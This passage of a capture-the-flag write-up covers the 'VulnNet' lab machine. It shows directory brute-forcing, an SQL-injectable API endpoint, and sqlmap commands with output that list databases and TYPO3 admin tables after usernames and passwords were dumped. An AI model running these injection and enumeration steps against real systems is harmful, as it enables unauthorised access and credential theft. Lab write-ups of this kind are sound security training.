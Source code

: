 and a filedamin page, that looks like an upload page where we could execute an uploaded reverse shell later.
i spend to much time on the other directories. nothing found there.

I dirbusted the other subdomain, but nothing special popped up. then i found something in the source of a blog post. `http://blog.vulnnet.thm/post5.php`

![image](/images/Pasted image 20221105231125.png)

### API SQLI

finally the api endpoint i was missing. it turned out it was vulnerable to SQLI

![image](/images/Pasted image 20221105231548.png)
![image](/images/Pasted image 20221105231633.png)
![image](/images/Pasted image 20221105231754.png)
![image](/images/Pasted image 20221107221157.png)

i got the database named `blog` and inside was a table named `users`. after dumping the columns `username` and `password` i tried to login with ssh and of course the typo3 login. but it did not work. i tried to find out why there was something missing. `sqlmap` needed to help me.

### sqlmap

````

```shell
$ sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=0 --dbs

[16:16:01] [INFO] fetching database names
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin
sq```

there are more databases actually. checking `vn_admin` got a lot of tables.

```shell
$ sqlmap -u http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=0 -D vn_admin --tables

+---------------------------------------------+
| backend_layout                              |
| be_dashboards                               |
| be_groups                                   |
| be_sessions                                 |
| be_users                                    |
| cache_adminpanel_requestcache               |
| cache_adminpanel_requestcache_tags          |
| cache_hash                                  |
| cache_hash_tags                             |
| cache_imagesizes                            |
| cache_imagesizes_tags                       |
| cache_pages                                 |
| cache_pages_tags                            |
| cache_pagesection                           |
| cache_pagesection_tags                      |
| cache_rootline                              |
| cache_rootline_tags                         |
| cache_treelist                              |
| fe_groups                                   |
| fe_sessions                                 |
| fe_users                                    |
````